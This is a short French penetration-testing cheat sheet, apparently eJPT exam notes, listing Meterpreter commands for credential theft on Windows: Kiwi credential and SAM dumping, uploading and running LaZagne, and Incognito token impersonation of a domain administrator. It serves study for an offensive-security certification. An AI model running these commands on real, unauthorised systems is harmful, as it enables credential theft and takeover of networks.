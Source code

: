 ```bash
# Kiwi dans Meterpreter (priorité 1)
load kiwi
creds_all
lsa_dump_sam

# LaZagne via Meterpreter
upload laZagne.exe C:\\temp\\laZagne.exe  
execute -f "C:\\temp\\laZagne.exe" -a "all"

# Incognito dans Meterpreter
load incognito
list_tokens -u
impersonate_token DOMAIN\\Administrator
```

**🎯 Astuce eJPT** : 
- **Priorité 1** : Unattend.xml et AutoLogon Registry
- **Priorité 2** : Kiwi via Meterpreter (`creds_all`)  
- **Priorité 3** : LaZagne via Meterpreter pour apps tierces
- **Incognito** : Uniquement via Meterpreter pour impersonation !